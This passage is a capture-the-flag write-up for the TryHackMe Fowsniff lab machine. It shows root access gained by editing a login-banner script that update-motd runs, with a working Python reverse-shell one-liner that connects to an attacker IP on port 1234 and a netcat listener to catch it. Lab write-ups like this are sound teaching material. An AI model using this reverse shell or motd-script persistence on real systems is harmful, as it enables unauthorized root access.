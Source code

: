 Contents of the `/opt/cube/cube.sh` file, this is the banner when you log in into the system:

```
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|
-:      y.      dssssssso                ____
-:      y.      dssssssso               / ___|___  _ __ _ __
-:      y.      dssssssso              | |   / _ \| '__| '_ \
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _
-:      o.      yssssssso               \____\___/|_|  | .__/  (_)
-:    .+mdddddddmyyyyyhy:                              |_|
-: -odMMMMMMMMMMmhhdy/.
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```

Looking in the file system, there is a file inside the `/etc/update-motd.d` folder named `00-header*` that runs this script.

You can edit the script `cube.sh` to get a reverse shell with python:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.14.123",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["
/bin/sh","-i"]);'
```

Now start a netcat with and log in with ssh to get the reverse shell:

```
$ nc -nlvp 1234
Connection from 10.10.30.229:51180
```

Now I'm root user, so I can get the `flag.txt` file, in this case there is no hash, only a message saying that you completed the machine.

```
# whoami
root
# cd root
# ls
Maildir
flag.txt
# cat flag.txt
   ___                        _        _      _   _             _
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/

...SNIP...

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```

And the machine is pawned ;)

## References

- ben. (2020, April 09). <span class="reference-title">Fowsniff CTF</span>. _THM Challenges_. [https://tryhackme.com/r/room/ctf](https://tryhackme.com/r/room/ctf)

